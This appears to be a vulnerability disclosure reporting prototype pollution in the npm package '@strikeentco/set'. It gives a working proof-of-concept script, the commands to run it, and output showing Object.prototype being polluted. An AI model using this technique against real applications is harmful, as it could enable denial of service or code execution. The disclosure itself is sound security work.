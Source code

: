 # Description

`@strikeentco/set` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const set = require('@strikeentco/set')

console.log(`Before: ${{}.polluted}`)
set({}.__proto__, 'polluted', true)
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i @strikeentco/set # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

